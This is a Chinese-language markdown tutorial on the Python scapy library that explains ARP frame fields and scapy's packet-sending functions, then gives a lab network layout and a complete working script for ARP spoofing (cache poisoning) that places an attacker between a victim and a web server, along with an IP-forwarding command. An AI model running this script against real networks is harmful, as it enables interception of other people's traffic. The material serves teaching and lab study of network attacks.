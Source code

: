 # python scapy库


## 基础知识
####  ARP帧结构
![arp_packet_struct.png](./imgs/arp_packet_struct.png)
>以太网头部  
>>以太网目的地址： 6字节（48位）的目的地MAC地址数值  
>>以太网源地址：6字节报文发送者的MAC地址数值  
>>帧类型：表示后面的是什么数据。ARP报文为0x806  
>  
>ARP报文
>>硬件类型：表示硬件地址的类型，ARP报文中使用1，代表MAC地址  
>>协议类型：表示要映射的协议地址类型。0x0800即表示IP地址。  
>>硬件地址长度：地址长度，单位为字节。硬件地址长度为6字节  
>>协议地址长度：地址长度，单位为字节。IP地址长度为4字节  
>>op(opration code)：操作码。1表示ARP请求报文，2表示ARP回应报文。RARP的请求和回应分别为3和4  
>>发送端以太网地址：发送者的以太网地址  
>>发送端IP地址：发送者的IP地址  
>>目的以太网地址： 接收ARP包的主机。当报文为请求的时候，可以不填
>>目的IP地址：接收ARP包的主机的IP地址。当报文为请求的时候，为被查询者的IP地址  

>ARP请求填充：
>>以太网头部：以太网目的地址=广播地址，以太网源地址=本机MAC地址  
>>
>>ARP报文：op=1，发送端以太网地址=本机MAC地址，发送端IP地址=本机IP地址， 目的以太网地址=空， 目的IP地址=想要查询的IP地址   
>
>ARP回应填充：
>>以太网头部：以太网目的地址=广播地址，以太网源地址=本机MAC地址   
>>
>>ARP报文：op=2，发送端以太网地址=告诉查询者的MAC地址，也就是本机MAC地址，发送端IP地址=查询者查询的IP地址，也就是本机IP地址， 目的以太网地址=查询者的MAC地址， 目的IP地址=查询者的IP地址  
>
>接收ARP回应报文的主机会将发送端以太网地址和发送端IP地址存入ARP缓存表中

#### scapy库  
使用scapy库可以构造基于OSI参考模型的数据包，常用的Layer有 Ether、IP、ARP()、UDP、TCP、UDP。这些协议的包如果不手动指定其中field的数值，scapy会自动根据环境进行指定。  
构造发送的包的时候，可以指定不只一个layer的包的数值。可以将多个layer的包的数值进行叠加:  
![](imgs/scapy_stackingLayers.png)




## scapy库的使用  
### 命名空间设定：from scapy.all import *
#### 发包  
函数：  
![](imgs/scapy_send_func.png)


常用函数：  
>send()发送网络层报文  (IP, ARP, etc.)   
>sr()发送网络层报文,并接收网络层报文  
>sr1()发送网络层报文，只接收第一个响应的网络层报文  
>sendp()发送链路层报文  (Ethernet, 802.3, etc.)  
>srp()发送链路层报文,并接收链路层报文  
>srp1()发送链路层报文，只接收第一个响应的报文  
>srloop()循环发送网络层报文，并打印结果  
>srploop()循环发送传输层报文，并打印结果  

指定发包接口:  
conf.iface="网卡名称"
#### 构造IP数据包
```
IP(dst=目标IP地址或主机名(会自动进行DNS解析))
```
#### 构造ARP数据包
```python
ARP(op=操作码, psrc=发送端IP地址字符串, hwsrc=发送端MAC地址字符串, pdst=目的IP地址字符串, hwdst=目的MAC地址字符串)
```
## ARP协议利用
攻击者通过构造ARP报文，可修改目标主机中的ARP动态表项。

#### ARP欺骗实战
网络拓扑：  
web服务器 192.168.1.10 :00:0c:29:12:c4:1e
受害者电脑 192.168.1.20 00:0c:29:8f:b6:a5
攻击者电脑 192.168.1.86 00:0c:29:ec:2e:d5  

攻击者：  
开启tcp转发  
\# echo "1" > /proc/sys/net/ipv4/ip_forward

python脚本
```python
#!/usr/bin/python2
#coding:utf-8

from scapy.all import *
import time

conf.iface="enp2s0f1"

victim = {
        "ip": "192.168.1.20",
        "mac": ""
        }

web_server = {
        "ip": "192.168.1.10",
        "mac": ""
        }

self = {
        "ip": "192.168.1.86",
        "mac": str(Ether().hwsrc)
        }

# ask web server's MAC address
web_server["mac"] = sr1(ARP(pdst=web_server['ip'])).hwsrc
print 'web服务器硬件地址：' + web_server['mac']

# ask victim's MAC address
victim["mac"] = sr1(ARP(pdst=victim['ip'])).hwsrc
print '受害者硬件地址：' + victim['mac']

# start attack
try:
    print "attacking..."
    while True:
        sendp(Ether(dst=victim['mac'])/ARP(op=2, psrc=web_server['ip'], hwsrc=self['mac'], pdst=victim['ip'], hwdst=victim['mac']))
        sendp(Ether(dst=web_server['mac'])/ARP(op=2,psrc=victim['ip'], hwsrc=self['mac'], pdst=web_server['ip'], hwdst=web_server['mac']))
        time.sleep(2)
except KeyboardInterrupt:
    print "restore default mac mapping..."
    for i in range(0, 5):
        sendp(Ether(dst=victim['mac'])/ARP(op=2, psrc=web_server['ip'], hwsrc=web_server['mac'], pdst=victim['ip'], hwdst=victim['mac']))
        sendp(Ether(dst=web_server['mac'])/ARP(op=2,psrc=victim['ip'], hwsrc=victim['mac'], pdst=web_server['ip'], hwdst=web_server['mac']))
        time.sleep(2)

```

## ICMP交换机泛洪

